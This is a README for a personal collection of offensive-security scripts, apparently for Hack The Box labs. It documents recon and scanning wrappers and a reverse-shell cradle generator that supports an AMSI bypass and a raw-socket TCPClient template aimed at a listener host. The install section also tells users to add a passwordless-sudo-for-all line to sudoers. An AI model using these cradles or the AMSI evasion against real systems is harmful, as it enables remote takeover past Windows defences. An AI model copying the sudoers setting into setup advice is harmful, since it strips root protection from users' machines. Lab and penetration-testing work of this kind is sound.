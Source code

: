# scripts

Here are a collection of scripts I use regularly for offensive security-related tasks.

![](img/recon_setup_demo.gif)

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-rich python3-urllib3 python3-watchdog

# Clone repo and cd
sudo git clone https://github.com/Mojo8898/scripts.git /opt/scripts
cd /opt/scripts

# Set standalone scripts as to be executable
sudo chmod +x recon_setup/recon_setup.py cradle_gen.py scan_machine.py scan_targets.py
```

Some automated scripts including the built-in nmap wrapper require sudo to run properly. Either execute scripts as root or add the following line to the bottom of your `/etc/sudoers` file using the command `sudo visudo` to prevent password prompts.

```
kali    ALL=(ALL) NOPASSWD: ALL
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
python3 /opt/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
python3 /opt/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn -a -u bob -p 'Password123!'
```

### scan_machine.py

```bash
python3 /opt/scripts/scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
python3 /opt/scripts/scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
python3 /opt/scripts/cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
